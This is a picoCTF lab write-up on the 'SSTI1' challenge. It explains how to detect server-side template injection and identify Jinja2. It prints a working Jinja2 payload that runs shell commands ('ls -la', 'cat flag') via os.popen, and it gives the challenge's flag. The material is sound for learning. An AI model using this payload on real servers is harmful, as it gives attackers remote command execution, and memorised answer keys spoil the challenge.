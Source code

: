 ```yaml
---
layout: writeup
title: SSTI1
tags: WebX
---
```


## Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

The challenge is then a website, where there is a text box that you can type into, anything that you submit in the form with the text box is then shown on a new page.

## Solution

### First glance

The challenge is called `SSTI`, which seems like a hint, but at first, lets just try some `XSS`. Inputing `<button>yes</button>` does return a webpage with just this code:

```html
<html>
	<head></head>
	<body>
		<h1 style="font-size:100px;" align="center"><button>yes</button></h1>
	</body>
</html>
```

So the input is vulnerable to `XSS` attacks, but where these attacks really shine is when you can get info your not supposed to, from other users. But on the initial Home page it seems there is some small text down in the bottom left

```text
*Announcements may only reach yourself
```

This seems to hint to the user that `XSS` will not be a viable option for this challenge, even if it is not protected against. So onto that strange title `SSTI`.

### SSTI

{% raw %}

SSTI, stands for `Server Side Template Injection`, it is making use of how when a dynamic webpage is loaded from a template using `jnija2`, `Twig`, `Freemaker` or some other templating tool, that any text within double curly braces is exectued like code. e.g. `{{ 7 * 7 }}` or `${ 7 * 7}` would be evaluated to `49` depending on which language they are using.

A way to test if something is vulnerable to this is to just input some arbitrary code that is language-agnostic e.g. it works in any language. A good example is `{{ 7 * 7 }}`, if the site is protected against SSTI then the text `{{ 7 * 7 }}` will be returned, but if it is not protected, it will evaulate to `49`.

Low and behold, when `{{ 7 * 7 }}` is input into the form, the reply is `49`. This proves, that SSTI is a possible route, which could mean that we can do RCE to get into the servers files.

The next step after determining that SSTI can be done, is figuring out what templating language the server uses, this is done by inputting commands that would have different outputs in different languages. Luckily, some else has already created a simple way to test what language the server might be using. Thank you [James Kettle at PortSwigger](https://portswigger.net/research/server-side-template-injection), where in the article he shows a very useful image:

![A Tree structure that shows the branching paths for what language a server with templating could use](/assets/images/writeups_images/SSTI1/SSTI_Template.png)

As you can see, we seem to have missed a step, that becuase I would have gone `{{7*7}}`, and then `${7*7}`, but I guess to make the diagram have a nice end point, they have those two the other way round. Anyway, as we have already proven that `{{7*7}}` is executed, that means that we're no onto the `{{7*'7'}}` step, which as you can see would then mean that the template langauge is either `Jinja2` or `Twig`.

Now what they don't show in the article is that `Jinja2` is for python backends while `Twig` is for PHP backends, as such they execute the code `{{7*'7'}}` differently. They do this becuase they try to follow the conventions of the language they are based in, so in python (and Jinja2) `7*'7'` evaluates to `7777777`, this is becuase python simply repeates the string '7', 7 times. In PHP (and Twig) on the other hand though, `7*'7'` evaulates to `49` this is becuase they implicitly interpret the string `'7'` into the integer `7`.

So inputing the command `{{7*'7'}}` returns `7777777`. This means that the backend templating language is `Jinja2`.

Now in Jinja2, as it is a fully fledged language, technically we could just chain Jinja2 command after Jinja2 command, to do whatever we want.
In Jinja2 there are two types of syntax, `expressions` which are done within `{{ /* Expression Here */ }}`, and `Block Statements` which are done with `{% /* Code goes Here */ %}`.
Luckily, for this challenge though, you can easily run os commands in python with `os.popen(/* Command */).read()`, the only trouble is that we can't do your standard import statement in Jinja2, we need to have it be one line. Luckily though, there is a way to import things in python without using the `import` command.

```python
self.__init__.__globals__.__builtins__.__import__('os')
```

This code grabs the `os` module from the global python builtins which are variables that exist in every python script that can be used to access all available python functions. While this code doesn't import the module to the program like normal, it just returns the module, so we could either assign this module to a variable or run commands directly on it. This is what python does behind the scenes

```python
import os
# This code becomes
os = self.__init__.__globals__.__builtins__.__import__('os')
```

This shows why an import cannot be used, becuase an import assigns a variable. Luckily if we just want to run a single command, when we dont need to save the output, and the only command we want to run is `.popen("").read()`. So the following injection, can just have the shell command changed, in order to do any RCE you want on the server

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("ls -la").read() }}
```

This returns

```text
__pycache__ app.py flag requirements.txt 
```

We can then read any of these files with "cat"

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("cat flag").read() }}
```

This returns the flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`

{% endraw %}
